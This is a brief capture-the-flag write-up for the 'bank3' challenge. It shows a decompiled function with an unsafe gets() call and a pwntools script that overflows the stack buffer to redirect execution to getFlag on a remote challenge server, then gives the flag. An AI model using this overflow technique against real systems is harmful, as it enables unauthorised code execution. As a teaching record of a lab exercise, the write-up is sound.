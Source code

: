 ## bank3 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We exploit buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
elf = ELF('./bank3')
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(elf.symbols['getFlag']))
conn.interactive()
```

**Flag:** `HCMUS-CTF{overwrite_all_the_things}`
